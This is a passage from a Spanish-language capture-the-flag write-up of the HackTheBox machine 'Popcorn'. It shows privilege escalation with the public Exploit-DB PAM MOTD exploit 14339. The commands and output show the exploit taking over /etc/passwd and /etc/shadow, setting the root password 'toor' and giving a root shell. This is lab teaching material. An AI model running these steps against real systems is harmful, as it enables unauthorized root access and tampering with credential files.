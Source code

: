 Vemos que si podría aplicar, así que nos descargamos el exploit, lo copiamos en una ruta donde tengamos permisos y lo ejecutamos.

```bash
❯ searchsploit -m linux/local/14339.sh
  Exploit: Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tampering Privilege Escalation (2)
      URL: https://www.exploit-db.com/exploits/14339
     Path: /usr/share/exploitdb/exploits/linux/local/14339.sh
File Type: Bourne-Again shell script, ASCII text executable

Copied to: /home/k4miyo/Documentos/HTB/Popcorn/exploits/14339.sh


❯ mv 14339.sh privesc_motd.sh
```

Para evitar algún problema, vamos a pasarlo a formato Unix.

```bash
❯ dos2unix privesc_motd.sh
dos2unix: convirtiendo archivo privesc_motd.sh a formato Unix...
```

Copiamos el contenido con `xclip` y nos creamos un archivo en la máquina víctima bajo la ruta `/dev/shm`:

```bash
❯ cat privesc_motd.sh | xclip -sel clip
```

```bash
www-data@popcorn:/home$ cd /dev/shm
www-data@popcorn:/home$ touch privesc.sh
www-data@popcorn:/home$ chmod +x privesc.sh
www-data@popcorn:/dev/shm$ nano privesc.sh 
www-data@popcorn:/dev/shm$ ls -l
total 4
-rw-r--r-- 1 www-data www-data 3043 Jan 17 02:30 privesc.sh
www-data@popcorn:/dev/shm$
```

Si leemos un poco el exploit, nos dice que el script nos solicitará una contraseña para acceder como el usuario **root** que es **toor**:

```bash
www-data@popcorn:/dev/shm$ ./privesc.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/dev/shm# whoami
root
root@popcorn:/dev/shm#
```
